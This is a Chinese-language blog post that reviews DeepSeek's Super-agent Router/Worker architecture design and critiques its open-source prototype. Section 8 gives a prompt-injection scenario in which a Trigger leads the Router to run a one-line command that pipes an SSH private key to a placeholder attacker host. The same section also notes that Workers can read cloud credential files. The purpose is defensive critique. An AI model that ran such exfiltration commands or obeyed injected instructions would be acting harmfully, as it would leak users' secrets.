




10 月 31 号晚上，DeepSeek Harness 团队扔出一篇《[Super-agent 设计探索：迈向更自主的 Agent 系统](http://feng.ifeng.com/c/8xg8vR4CIaw)》，顺手把原型传到了 GitHub：[deepseek-ai/dsh-superagent-prototype](https://github.com/deepseek-ai/dsh-superagent-prototype)。

严格说这不是论文，是一份万字内部设计文档的外发版。它既没训新模型，也没出新 benchmark，干的事一句话能说完——把操作系统和分布式系统里那套调度、缓存、存算分离、看门狗，重新在 Agent 身上搭了一遍。

初看有点"这不都是老东西吗"，读完才意识到，老东西被搬到这个场景，刚好踩在当下 Agent 落地最难受的几个点上。

<!-- more -->

## 1. 瓶颈换了，从模型换到了人头上

过去一年 Coding Agent 这类工具证明了一件事：只要工具和上下文给够，模型自己能把一件复杂的事啃下来。人慢慢被推到上游，只做决策和验收。

但人的注意力是有上限的。DeepSeek 自己的观察是，一个人同时能盯 3 到 5 个活跃 Session 就到顶了。想让 AI 多接活？那就得自己开好几个聊天窗口来回切，还得记着每个窗口聊到哪；本地电脑一合盖，所有任务当场阵亡。

他们想做的 Super-agent，用大白话讲就是：一个一直在线的 Agent，能同时并行推好几件事，会自己盯着环境找活干，出了岔子能自己爬起来。四个词概括——连续、高效、主动、持久。

| 特征 | 白话解释 |
| --- | --- |
| 连续 | 你在 IM 群里说的事，换到 GitHub PR 评论里改口，它接得上，你不用管背后开了几个 Session |
| 高效 | 不用等上一条指令跑完，下一条随时能塞进来，几件事并行推 |
| 主动 | 不用你一条条喂指令，环境里有事它自己动，没事就闭嘴 |
| 持久 | 永远在线，设备掉了重连能续上，自己出问题自己恢复 |

单个 ReAct Loop 这四条一条都顶不住。要全满足，底层必须换结构。

## 2. 两层：一层分派，一层干活

这里有个绕不开的矛盾。全塞一个 Session，上下文是最连续，但单循环串行，所有细节混在一起，吞吐上不去；全拆独立 Session，吞吐是高了，但你在 A 窗口说过的话，B 窗口完全不知道。

DeepSeek 的拆法是把这两件事分到两层去干——常驻的 Router 层负责全局记忆和对外交互，Worker 层负责并行执行。

**Router 只分派，不干活。** 它是常驻的全局入口，所有跨任务的信息在这儿汇总，相当于整个系统的记忆和调度台。但它不直接执行任务，连 Bash 工具都可以不给——就做交互和分派。

这点跟常见的 Agent Team 表面像，实则不一样。普通 Agent Team 的 Lead 得钻进任务细节里拆步骤、高频协调成员，自己推理负担很重。Super-agent 的 Router 不碰单任务内部怎么拆，只处理任务之间的高层关系。团队自己的体感是，Router 的活比想象中轻，**配个小模型就够用**。

Router 还有个意外红利：上一轮推理期间涌进来的事件会堆着，下一轮一起喂给 LLM。Prefill 阶段是并行算的，堆得越多，摊到每个决定上的推理成本反而越低。等于拥堵的时候它自己会"团购"。

**Worker 只干活，不抢话。** 每个 Worker 是一个上下文隔离的会话，挂全套工具，配最强模型。它不直接跟用户对话，所有推理和工具调用都闷在自己屋子里，干完了把结论汇报给 Router，由 Router 统一对外说——不然几个 Worker 同时在群里回话，直接刷屏。

Worker 之间一般不通信。真要打架，多半是抢同一个 PR、同一份共享环境。那好办，只要它们都订阅了那个 Thread，收得到同一份事件，自己会发现撞车、自己协商。

## 3. 事件驱动：不等你下命令，自己找活

要让 Agent"主动"，输入就不能再是人敲的 prompt，得是环境里不断冒出来的半结构化事件——群聊消息、邮件、日程、PR 评论、CI 结果，他们管这些叫 Trigger。

一条 Trigger 从进来到被处理，文章拆了四个设计，我挑重点说。

先过滤。真实群聊里绝大多数消息根本不需要 Agent 动手，每条都调一次大模型判断，成本和延迟都扛不住。他们的做法跟操作系统的 Fast Path / Slow Path 一个路子：先用死代码快筛——来源是不是白名单、在不在要管的群里，绝大部分噪音这一步就丢了；剩下的可疑分子，再丢给 LLM 用语义判断。

再路由。Router 只管新任务的冷启动。一个 Worker 盯上某个 Thread 之后，这个 Thread 后面的所有事件由程序直接塞给它，不再绕 Router。Worker 发现事不对路了，自己退订交回去。这一手省的不是延迟，是 Router 的 token——后面实验数据能看到。

上下文怎么塞也是个问题。窗口就那么大，塞多了挤注意力，塞少了模型反复调工具读，步数爆炸。他们用了俩动作：Inline 就是近期要用的直接放进窗口，Spill 就是太长的内容留在窗外，窗口里只留个摘要和引用。再给 Trigger、Thread、Worker 都编上唯一 ID，每次召回顺手把下一跳的 ID 也带上，模型就能顺着引用图，从一条当前消息一路翻到上周那个旧任务的上下文。这套他们叫链式召回。

最后一个挺有意思，叫投机执行。还没确定这事值不值得做，先在后台干起来，有用再交付，没用拉倒。举的例子很具体：群里还在讨论一个 bug 怎么修，Agent 已经在后台默默复现、找修法了——真修好了、修法又不复杂，才冒头提个 PR；修不好或者修法太脏，全程潜水当没来过。

## 4. 前台不卡，随时接新指令

经典 ReAct Loop 是半双工的：模型调一次 `run()`，阻塞住等工具跑完，这期间用户说啥都听不见。

DeepSeek 把耗时工具调用换成异步的 `start()` / `stop()`。模型一发 `start()` 立刻拿到"已启动"，循环不阻塞，继续接用户新输入；后台真跑完了，结果作为一条新消息投递回会话。前台对话和后台任务就解耦了。

输出侧也得分信道。IM 群里人多，你长篇大论就是骚扰，他们团队内部硬规定单条回复不超过 100 词；到了 GitHub PR、邮件这种异步场景，背景、改动、验证结果该写多全写多全。

## 5. 存算拆开，再挂个看门狗

传统本地 Agent 把三件事焊在同一台机器上：跑 Loop 的计算、要持久化的会话状态、代码仓库和工具链这些执行环境。机器一睡，全停。

Super-agent 分两步松绑。先把计算和状态搬到云端，Agent 不再跟着单机生命周期走；再把云端 Loop 和执行环境拆开——执行环境可以留在你自己的开发机上（他们叫 BYOM，Bring Your Own Machine），也可以是云端托管机。你那台笔记本重新上线之后，云端 Agent 还能自己跑上去，把之前排着要在那台机器上干的活补完。

光解耦还不够，长跑系统必须在主回路之外挂一个独立 Watchdog。这个 Watchdog 本身也是个带全套工具的 Agent，被定时唤醒。它不只看进程死没死——那种检测挡不住模型陷入无效循环或者跑偏方向——它是用模型去看每个 Worker 到底有没有真进展、有没有离题。发现问题就插手修，偶发故障就反复复查直到恢复。因为它也是个 Agent，你甚至可以直接问它"刚才为啥挂了"。

## 6. 数据：快是真快，代价是 token

他们跑了一组合成负载实验，大概 300 条消息、20 个工作请求，每种配置重复 5 次。结果如下：

| 指标 | Super-agent | 去掉直通 | 单 Session + Subagent（中性提示） |
| --- | --- | --- | --- |
| 完成 p50 | **12.4 分钟** | 基本持平 | 老被新消息打断，跑不完 |
| 完成 p95 | **15.7 分钟** | 基本持平 | **29.5 分钟** |
| Router 决定数 | 基准 | +30% | — |
| Router 读缓存 token | 2323 万 | 3177 万（**+37%**） | — |

几条我自己觉得有意思的：

去掉 Thread 直通之后，完成时间几乎没变，但 Router 的决定数多了 30%，读缓存 token 多了 37%。说明直通这事不省时间，纯纯省 Router 的推理钱。

单 Session 加 Subagent 那个方案，结果特别吃提示词。中性提示下 5 次跑，一次都没调 Subagent，全在主会话里硬扛、被新消息反复打断；改成"优先委派"之后好一点，还是追不上 Super-agent。

Router 自己的压测更直观：Trigger 到达频率从每分钟 1 条涨到 40 条，平均 batch 从 1.0 涨到 2.8，单次请求耗时才从 2.5 秒涨到 3.9 秒，摊到每个决定上的推理时间从 6.4 秒掉到 1.6 秒。拥堵的时候它反而更划算。

当然天下没有免费的午餐。维护这么多会话，读缓存 token 总量是比单 Session 高的——**这就是拿 token 买时间和稳定性**。团队自己也说了，合成负载、简化环境，看看趋势就行，别当产品结论。

## 7. 他们自己承认还没解决的事

文末那几个开放问题，我觉得比架构本身更值得做 Agent 的人读一遍。

Router 什么时候该拆、拆多细、Worker 之间什么时候允许直接通信，现在没答案；跨月的长程记忆怎么存，也是空白。聊天窗口是不是 Agent 的最终形态？以后交互可能直接发生在 GitHub 这种领域界面里，用户中途要能接管、能实时协同。再往后，多个隔离实例之间怎么划上下文边界、怎么互相通信（A2A），基本没人做。最硬的是安全：云端 Agent 要碰端侧凭据，提示词注入和凭据泄露是绕不过去的坎，理想状态是 Agent 用得到凭据、却摸不到凭据本身。

## 8. 读了源码之后，几个想追问的点

光读设计文档不过瘾，我把 [dsh-superagent-prototype](https://github.com/deepseek-ai/dsh-superagent-prototype) 的 [`docs/007-architecture.md`](https://github.com/deepseek-ai/dsh-superagent-prototype/blob/main/docs/007-architecture.md) 和 [`docs/002-authorization.md`](https://github.com/deepseek-ai/dsh-superagent-prototype/blob/main/docs/002-authorization.md) 翻了一遍。有几处设计文档说得很漂亮，但落到原型上要么是简化、要么是矛盾、要么干脆没实现。记下来，真要在生产里抄这套架构的人，这几个坑得自己填。

**① Router 不干活？原型里 Router 手里照样攥着 bash。**

设计文档说 Router"甚至可以不配 Bash 工具"。但[架构文档](https://github.com/deepseek-ai/dsh-superagent-prototype/blob/main/docs/007-architecture.md)里 main Session 的工具清单赫然挂着 `bash`、`read`、`read_image`、`job_list`、`job_kill`。原型靠 `noWait` 守卫把 shell 超时压到 5 秒、job 等待压到 5 秒，再靠 prompt 写一句"别去读代码"。文档自己都坦白：*"Avoiding code reads is a prompt rule, not a tool restriction."*

这就尴尬了。架构上宣称的"Router 不执行任务"，在原型里是靠模型自觉维持的。哪天 Router 被 Trigger 里的提示词注入诱导去跑一条 `cat ~/.ssh/id_rsa | curl evil.example`，架构层没有任何拦截。**建议是把 Router 的 shell 工具在宿主层面直接禁掉，或者扔进一个空目录沙箱，而不是写进 prompt 里指望它听话。**

**② Router 的"全局记忆"，其实是 Worker 喂回来的 600 字摘要。**

设计文档把 Router 描述成整个系统的"序点、协调点和记忆"。但看 `worker_report` 的载荷：state 和 summary 上限 600 字符，超了给个 read pointer。Worker 之间协同靠的是订阅同一个 Thread 的原始事件，互相看得见对方在 PR 里改了什么；Router 看到的却是 600 字摘要。

这会养出一个很别扭的故障模式：两个 Worker 在一个 PR 上协作，它们局部一致；Router 基于 600 字摘要形成的全局印象，早跟现场脱节了。三周后你在群里问"上次那个登录接口最后怎么改的"，Router 翻出来的是 Worker 三周前的一句"已修复登录问题"，细节全丢了。**Worker 给 Router 的状态同步应该是结构化事件流（commit hash、改动文件、测试结果），而不是自然语言摘要——摘要套摘要，信息是指数衰减的。**

**③ Worker 之间没有真正的隔离，只是共用同一个 OS 用户。**

Authorization 文档写得极细：admission table、Mandate、policy revalidation，谁能起一个 Ticket 管得死死的。但 Ticket 一旦跑起来，DshExecutor 是"one Session and directory per Ticket"——不同 Ticket 只是目录不同，跑在同一台机器、同一个 OS 用户、同一个 SSH agent、同一套本地凭据下。

也就是说，你同时让 Agent 处理一个开源仓库和一个内网机密仓库，两个 Worker 都能 `cat ~/.aws/credentials`。设计文档把"Agent 用得到凭据却碰不到凭据本身"列为开放问题，我觉得这不是开放问题，是这套架构要进企业的**前置条件**。**建议每个 Ticket 的 Worker 进独立容器或独立用户，文件系统按 Ticket 挂白名单，凭据走 sidecar 的 secret broker，而不是让 Worker 直接摸磁盘上的 `~/.env`。**

**④ 设计文档吹的那个 Watchdog，原型里根本没实现。**

设计文档第 5 节那个独立 Watchdog Session，用 LLM 判断 Worker 有没有陷入无效循环、有没有跑偏——我在[架构文档](https://github.com/deepseek-ai/dsh-superagent-prototype/blob/main/docs/007-architecture.md)里翻遍了，HealthBoard 是有的，但那是个确定性健康面板（runtime/evals/models/worker 各报一个心跳），不是 LLM 控制回路。[README](https://github.com/deepseek-ai/dsh-superagent-prototype/blob/main/README.md)自己也坦白：*"Some designs discussed in the article are directions for future development and are not implemented in this prototype."*

这倒不怪他们，但读者得清醒：你现在去翻开源代码，能看到双层架构、事件路由、订阅、Mandate 授权；**那个"AI 盯着 AI 有没有跑偏"的 Watchdog，还停在设计稿上**。真要在生产里长跑，这一层不能省，而且得先做安全审计——Watchdog 自己也读环境事件，它自己就是提示词注入的靶子。

**⑤ 批处理讲得很热闹，但 Worker 报告进 Router 是串行的。**

Effects 表里 `relay`（Worker 报告进 main Session）并发写死 1，`notice` 也是 1。设计文档花了大篇幅讲 Router 批处理怎么摊薄单决定成本，压测里 batch 从 1.0 涨到 2.8。但 Worker 的报告是另一条管道，并发只有 1。Worker 真跑到十几个的时候，report 会在 relay 队列里排队，Router 看到的全局状态天然有滞后。这个瓶颈设计文档只字未提，真做大规模部署时会先撞在这里。

## 9. 读完的一点想法

这份文档最对我胃口的地方，是它没把 Agent 当什么新物种。

事件过滤是 Fast/Slow Path，批处理是操作系统的批量调度，Watchdog 是分布式系统的控制回路，Inline & Spill 是 Cache 的换页和预取，Router/Worker 是经典主从架构。Agent 工程现在遇到的并发、阻塞、上下文管理、故障恢复，操作系统和分布式系统几十年前全趟过一遍。把这些老办法老老实实抄过来，比造新概念有用。

给正在做 Agent 落地的同行，我觉得有几条可以直接拿走：Session 是系统细节，别让用户为它操心；中心 Router 别配重工具、别干重活，小模型加批处理够了；事件路由一定要留直通快路径，不然中心节点会被自己的转发流量压垮；长跑系统必须在主回路外另挂一个 Watchdog，而且 Watchdog 得能看懂"任务有没有进展"，光看进程活着没用。

原型是开源了，但团队反复强调那只是个验证路线的 demo，不是 DeepSeek 的产品。不过这套骨架，我猜接下来一两年会成为多 Agent 系统的主流参考之一。

---

**参考资料**

- DeepSeek Harness 官方：《[Super-agent 设计探索：迈向更自主的 Agent 系统](http://feng.ifeng.com/c/8xg8vR4CIaw)》（2026-10-31，原文发于 DeepSeek Harness 微信公众号）
- GitHub 原型仓库：[deepseek-ai/dsh-superagent-prototype](https://github.com/deepseek-ai/dsh-superagent-prototype)
  - 架构文档：[docs/007-architecture.md](https://github.com/deepseek-ai/dsh-superagent-prototype/blob/main/docs/007-architecture.md)
  - 授权文档：[docs/002-authorization.md](https://github.com/deepseek-ai/dsh-superagent-prototype/blob/main/docs/002-authorization.md)
- 智东西：《[DeepSeek 又开源了！公布 Super agent 架构](https://m.zhidx.com/p/606311.html)》
- IT之家：《[DeepSeek 提出 Super-agent 架构设计：Router 与 Worker 双层架构](https://m.ithome.com/html/1020615.htm)》
- 腾讯云开发者社区：《[DeepSeek 新开源架构 Super-agent：让 AI 管理任务，把人的注意力留给决策](https://developer.cloud.tencent.com/article/2773284)》
